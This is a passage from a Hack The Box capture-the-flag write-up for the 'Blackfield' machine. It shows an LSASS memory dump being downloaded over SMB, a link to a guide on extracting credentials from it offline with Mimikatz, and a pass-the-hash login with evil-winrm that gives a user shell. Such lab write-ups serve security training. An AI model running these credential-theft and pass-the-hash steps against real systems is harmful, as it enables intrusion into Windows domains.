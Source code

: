 ```bash
  sihost.zip                          A 33141744  Fri May 29 01:57:00 2020
  smartscreen.zip                     A 33756344  Fri May 29 01:57:11 2020
  svchost.zip                         A 14408833  Fri May 29 01:57:19 2020
  taskhostw.zip                       A 34631412  Fri May 29 01:57:30 2020
  winlogon.zip                        A 14255089  Fri May 29 01:57:38 2020
  wlms.zip                            A  4067425  Fri May 29 01:57:44 2020
  WmiPrvSE.zip                        A 18303252  Fri May 29 01:57:53 2020
```

There is `[lsass.zip](http://lsass.zip)`.

> What is LSASS? Local Security Authority Subsystem Service is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system

## Getting User Shell

Downloaded to my machine. 

```bash
root@kali:~/CTF/HTB/Boxes/Blackfield/memory_analysis# smbget -R smb://10.10.10.192/forensic/memory_analysis/lsass.zip -U audit2020
Password for [audit2020] connecting to //forensic/10.10.10.192: 
Using workgroup WORKGROUP, user audit2020
smb://10.10.10.192/forensic/memory_analysis/lsass.zip                                                                 
Downloaded 39.99MB in 557 seconds
root@kali:~/CTF/HTB/Boxes/Blackfield/forensic/memory_analysis# unzip lsass.zip 
Archive:  lsass.zip
  inflating: lsass.DMP               
root@kali:~/CTF/HTB/Boxes/Blackfield/forensic/memory_analysis# ls
lsass.DMP  lsass.zip
```

It contains `lsass.dmp` file, it is dump file.

We can extract password from it

> [https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)

![Untitled](/img/htb-blackfield/Untitled%201.png)

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc_backup> cd Desktop
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> dir

    Directory: C:\Users\svc_backup\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/9/2020   5:39 PM             34 user.txt

*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
b5------------------------------0a6
```
